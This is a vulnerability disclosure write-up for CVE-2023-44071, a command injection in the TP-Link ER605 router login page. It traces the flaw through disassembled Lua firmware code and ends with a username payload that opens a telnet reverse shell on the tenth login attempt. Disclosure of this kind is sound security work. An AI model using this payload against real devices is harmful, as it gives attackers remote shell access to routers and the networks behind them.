 # TP-Link ER605 Command injection


## Assigned CVE

> CVE-2023-44071

## Affected versions

> ER605(UN)_V1_1.3.0 Build 20230511, ER605(UN)_V2_2.1.2 Build 20230210

## analyze

> Download the vulnerable version and extract the firmware directly using unblob

![img](./unblob.png)

> Checking the file system, it is openwrt, so directly locate luci for code audit. By searching for dangerous functions, it is located that /usr/lib/lua/luci/controller/login.lua actually has an exec function in the login lua file. In luci, luci.sys.exec is used to execute system commands.

![img](./exec.png)

> Since the decompiled code did not successfully identify the exec function, I could only use `luadec -dis` to disassemble it, so the following is all assembly code, which is a bit difficult to read. Locate the exec function
```
         ...
  180 [-]: GETGLOBAL R20 K16      ; R20 := string
  181 [-]: GETTABLE  R20 R20 K54  ; R20 := R20["format"]
  182 [-]: LOADK     R21 K55      ; R21 := "ubus call ievent addx \'{\"module\":\"%s\",\"eid\":\"%s\",\"errcode\":\"%s\",\"attrs\":\"{\\\"userName\\\":\\\"%s\\\",\\\"loginType\\\":%d,\\\"userIP\\\":\\\"%s\\\",\\\"retryCnt\\\":%d}\"}\'"
  183 [-]: GETUPVAL  R22 U11      ; R22 := U11
  184 [-]: GETUPVAL  R23 U12      ; R23 := U12
  185 [-]: GETUPVAL  R24 U13      ; R24 := U13
  186 [-]: MOVE      R25 R7       ; R25 := R7
  187 [-]: GETUPVAL  R26 U14      ; R26 := U14
  188 [-]: MOVE      R27 R9       ; R27 := R9
  189 [-]: GETTABLE  R28 R18 K42  ; R28 := R18["attempts"]
  190 [-]: CALL      R20 9 2      ; R20 := R20(R21 to R28)
  191 [-]: GETTABLE  R21 R3 K56   ; R21 := R3["exec"]
  192 [-]: MOVE      R22 R20      ; R22 := R20
  193 [-]: CALL      R21 2 1      ;  := R21(R22) // command injection
         ...
```

> It can be seen that the string.format string formatting function is used in line 181. It is guessed that string.format is used to format `"ubus call ievent addx \'{\"module\":\"%s\",\"eid\":\"%s\",\"errcode\":\"%s\",\"attrs\":\"{\\\"userName\\\":\\\"%s\\\",\\\"loginType\\\":%d,\\\"userIP\\\":\\\"%s\\\",\\\"retryCnt\\\":%d}\"}\'"` It can be seen that the userName may be controllable, but how to receive the username?

```
    0 [-]: NEWTABLE  R1 0 0       ; R1 := {} (size = 0,0)
    1 [-]: GETGLOBAL R2 K0        ; R2 := require
    2 [-]: LOADK     R3 K1        ; R3 := "luci.sauth"
    3 [-]: CALL      R2 2 2       ; R2 := R2(R3)
    4 [-]: GETGLOBAL R3 K0        ; R3 := require
    5 [-]: LOADK     R4 K2        ; R4 := "luci.sys"
    6 [-]: CALL      R3 2 2       ; R3 := R3(R4)
    7 [-]: GETGLOBAL R4 K0        ; R4 := require
    8 [-]: LOADK     R5 K3        ; R5 := "luci.model.checktypes"
    9 [-]: CALL      R4 2 2       ; R4 := R4(R5)
   10 [-]: GETUPVAL  R5 U0        ; R5 := U0
   11 [-]: GETTABLE  R5 R5 K4     ; R5 := R5["decode"]
   12 [-]: GETTABLE  R6 R0 K5     ; R6 := R0["data"]
   13 [-]: CALL      R5 2 2       ; R5 := R5(R6)
   14 [-]: GETTABLE  R6 R5 K6     ; R6 := R5["params"]
   15 [-]: GETTABLE  R7 R6 K7     ; R7 := R6["username"] //Get the value of username and store it in R7
   16 [-]: GETTABLE  R8 R6 K8     ; R8 := R6["password"]
   17 [-]: GETTABLE  R9 R3 K9     ; R9 := R3["getenv"]
   18 [-]: LOADK     R10 K10      ; R10 := "REMOTE_ADDR"
   19 [-]: CALL      R9 2 2       ; R9 := R9(R10)
   20 [-]: LOADNIL   R10 R10      ; R10 := nil
   21 [-]: GETTABLE  R11 R4 K11   ; R11 := R4["check_ip_in_lan"]
   22 [-]: MOVE      R12 R9       ; R12 := R9
   23 [-]: CALL      R11 2 2      ; R11 := R11(R12)
   24 [-]: NOT       R11 R11      ; R11 := not R11
   25 [-]: LOADNIL   R12 R12      ; R12 := nil
                ...
```

> In line 15, require is used to receive username and store it in R7. R7 is used in line 186. Now we can guess that we only need to change username to shell command when logging in to inject it?

> Of course we failed, but why? Did the username come from somewhere else? Looking further into the code I found some clues!

```
         ...
  176 [-]: GETTABLE  R20 R18 K42  ; R20 := R18["attempts"]
  177 [-]: GETUPVAL  R21 U4       ; R21 := U4
  178 [-]: EQ        0 R20 R21    ; if R20 == R21 then goto 180 else goto 194
  179 [-]: JMP       14           ; PC += 14 (goto 194)
         ...
```
> When R20 equals R21 we jump to 180, where exec is executed, so what is this?

```

  157 [-]: GETUPVAL  R20 U4       ; R20 := U4
  158 [-]: GETTABLE  R21 R18 K42  ; R21 := R18["attempts"]
  159 [-]: SUB       R20 R20 R21  ; R20 := R20 - R21 
  160 [-]: SETTABLE  R1 K45 R20   ; R1["attemptsAllowed"] := R20
  161 [-]: TEST      R11 0        ; if R11 then goto 163 else goto 170
  162 [-]: JMP       7            ; PC += 7 (goto 170)

```

> Continue to look forward and you can see what operations are performed on R20 and R21 in line 158. You can see attemptsAllowed below, so it may be the number of logins allowed, because when testing login, the system will remind you how many login attempts are left.

> That's right, we won the bet✌️！Indeed, when we try to log in for the tenth time, which is the last chance, we change the username to shellcommand. We will get a beautiful shell🫡！

```sh
'`rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet ip port > f`'
```

## Vido

https://drive.google.com/file/d/1bXSqmImmRc7TIJ8HjFDIc1s0EDJuQpEz/view?usp=sharing